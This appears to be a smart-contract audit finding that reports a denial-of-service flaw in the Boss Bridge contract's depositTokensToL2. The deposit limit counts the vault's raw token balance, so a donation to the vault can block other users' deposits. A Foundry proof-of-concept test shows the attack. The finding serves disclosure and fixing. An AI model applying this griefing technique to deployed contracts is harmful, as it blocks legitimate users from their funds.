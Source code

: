 ### Relevant GitHub Links

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L71

## Summary

Malicious actor can DOS attack depositTokensToL2


## Vulnerability Details

The function depositTokensToL2 has a deposit limit that limits the amount of funds that a user can deposit into the bridges shown here 


```
if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
```

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L71

The problem is that it uses the contract balance to track this invariant, opening the door for a malicious actor to make a donation to the vault contract to ensure that the deposit limit is reached causing a potential victim's harmless deposit to unexpectedly revert. See modified foundry test below:



``` 
function testUserCannotDepositBeyondLimit() public {

        vm.startPrank(user2);

        uint DOSamount = 20;
        deal(address(token), user2, DOSamount);
        token.approve(address(token), 20);

        token.transfer(address(vault), 20);

        vm.stopPrank();


        vm.startPrank(user);
        uint256 amount = tokenBridge.DEPOSIT_LIMIT() - 9;
        deal(address(token), user, amount);
        token.approve(address(tokenBridge), amount);

        vm.expectRevert(L1BossBridge.L1BossBridge__DepositLimitReached.selector);
        tokenBridge.depositTokensToL2(user, userInL2, amount);
        vm.stopPrank();

       
    }
```
